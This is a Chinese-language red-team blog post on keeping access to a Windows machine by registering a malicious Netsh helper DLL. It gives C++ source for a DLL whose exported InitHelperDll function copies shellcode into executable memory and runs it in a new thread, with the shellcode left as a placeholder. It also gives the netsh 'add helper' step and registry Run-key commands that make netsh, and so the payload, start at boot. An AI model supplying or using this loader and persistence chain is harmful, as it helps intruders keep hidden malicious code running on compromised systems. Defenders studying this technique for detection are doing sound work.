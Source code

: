 ```yaml
---
layout:     post
title:    Windows权限维持-Netsh
subtitle:   Windows权限维持-Netsh
date:       2019-11-21
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - 内网渗透
    - 权限维持
---
```

# Windows权限维持-Netsh

## 简介
Netsh是Windows中用于网络配置命令工具，管理员可以使用它来执行与系统的网络配置有关的任务，可以用来配置防火墙策略用于转发。Netsh可以通过使用DLL文件来扩展自身的功能，基于此功能可以用来加载任意DLL，实现权限维持。  

## DLL
这里的dll是用来加载的，跟直接用rundll32调用的是有区别的。这里给出函数原型：  
```
DWORD
WINAPI
InitHelperDll(
    DWORD      dwNetshVersion,
    PVOID      pReserved
)
```
然后用vs创建一个dll项目，根据这个原型，将执行内容换成之前静态免杀中使用的加载shellcode的形式。  
```
#include <windows.h>

unsigned char shellcode[] ="xxxxxxxxxxxxxxxx";

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD      dwNetshVersion, PVOID pReserved)
{
    ((void(*)(void))&shellcode)();
}

```
稍微改写下。 
```
…………
DWORD WINAPI RunCode(LPVOID lpParameter)
{
    unsigned char shellcode[] =“xxxxxxxxxx”;
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, shellcode, sizeof(shellcode));
    ((void(*)())Memory)();
    return 1;
}  

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID
pReserved)
{
    HANDLE hand;
    hand = CreateThread(NULL, 0, RunCode, NULL, 0, NULL);
    CloseHandle(hand);
    return NO_ERROR;
}
``` 
编译出来。  

###  添加HelperDll
在命令行中运行netsh添加dll。  
```
C:\>netsh
netsh>add helper path\xx.dll
```
![191128_1](/img/191128_addhelper.png)  
添加后，会在注册表中多一项：   
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh
```
![191128_2](/img/191128_reg.png)  
然后只要每次运行netsh，就会上线。  
![191128_3](/img/191128_beacon.png)  
不过默认情况下，netsh不是自启动的需要在注册表中创建一下，以保证持久性。  
```
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v
NetshStart /t REG_SZ /d "C:\Windows\SysWOW64\netsh"
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run\\ -v
NetshStart -d 'C:\Windows\SysWOW64\netsh'
```  


### 补充
在有些机器上含有代理工具的，似乎是不需要添加netsh为自启的。  
